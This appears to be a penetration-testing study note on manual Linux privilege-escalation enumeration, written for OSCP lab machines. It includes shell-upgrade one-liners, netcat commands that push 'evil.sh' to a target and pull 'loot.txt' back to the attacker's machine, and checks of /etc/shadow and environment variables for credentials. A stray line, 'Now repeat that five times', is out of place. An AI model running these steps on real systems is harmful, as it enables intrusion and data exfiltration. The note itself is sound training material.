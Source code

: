 # Linux Enumeration

I will do **Manual Enumeration** before running LinPEAS or lse or pspy. 

Now repeat that five times.

Many OSCP boxes are designed in a way where linPEAS will not pick the PE up. But still run it once you are done with the checks below.

I assumed you got some kind of shell on a linux host. If it is a shell from a webshell, try upgrading to a more stable shell by popping one with nc (which should be native on a linux host) or a msfvenom payload. Also do the following to upgrade a shell to tty using python (or python3)

```bash
# on the target host
which python python2 python3 # check which python exist. Then use the relevant version below

python -c "import pty;pty.spawn('/bin/bash');"

python3 -c "import pty;pty.spawn('/bin/bash');"

python3 -c 'import os; os.system("/bin/sh");

```

## How to transfer files from Kali to Linux

Navigate to your tools folders and run the following (I like port 80 since it is highly likely that the target box will not have port 80 blocked)

```bash
python -m http.server 80
```

Back on your target box, navigate to a folder that you should have write and execute access.

I like using /tmp, /dev/shm, /var/tmp (default global writable directories) or if you land a shell as a user, you can use that user's home directory.

```bash
wget http://<kali ip>/<file>
```

On the off chance that you somehow cant use wget, check if your current user has its path variables set correctly

```bash
# on the target

echo $PATH 

# In general, should look something like this: /usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/local/games:/usr/games
# if somehow this is empty then just set the Path variable

export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/local/games:/usr/games

echo $PATH # to verify

```

Ok I really dont have wget! So what now? If you ssh-ed into the host, you can use scp (Secure Copy Paste)

```bash
# on your kali

scp [OPTIONS] [[user@]src_host:]file1 [[user@]dest_host:]file2

OPTIONS
-r recursive copy
-q quiet mode

For files we can use wildcard such as *.php

# if need diff port and id_Rsa keys, put them in front for it to work

# the below examples uses id_rsa to login and transfers linpeas.sh from kali to the /home/anita path

scp -P 2222 -i id_rsa linpeas.sh anita@192.168.208.245:/home/anita

```

If not SSH, you can always see the ancient method of using nc to file transfer.

Transferring evil.sh from kali to target
```bash
# on kali
nc -lvnp 80 < evil.sh
# on target
nc <kali ip> 80 > evil.sh
```
Transferring loot.txt from target to kali
```bash
# on kali
nc -lvnp 80 > loot.txt
# on target
nc <kali ip> 80 < loot.txt
```

-------------------
## Checking for the Quick Wins

1) The first few commands you SHOULD ALWAYS RUN is this:

```bash
# check your group
id
# check your history
history
# check your sudo powers
sudo -l
# check your environment variables
env
```

If you see groups like docker, backup, disk, adm, or anything that is just not your username. These are things that are either PE vectors or things you should investigate as being in those groups can give you certain powers. Note down!

sudo -l can reveal quick wins and more often than not THE PE vector. 

env to check for hardcoded credentials

2) The second thing is user enumeration and user home directories enumeration

```
cat /etc/passwd

ls -la /etc/passwd /etc/shadow  # might as well see if you can write to passwd or read shadow for an easy win

# ls -laRH lists all files recursively (including hidden) and outputs in human readable form. This is a godly command to quickly spider down directories

# you ls -laRH /home so that you can quickly see what files are in each user's directory (provided you can access them)

ls -laRH /home
```

3) The third thing you should do is to enumerate the world writable directories. Any thing inside that is not default should be investigated.

```bash
ls -la /tmp /opt /dev/shm /var/tmp
```


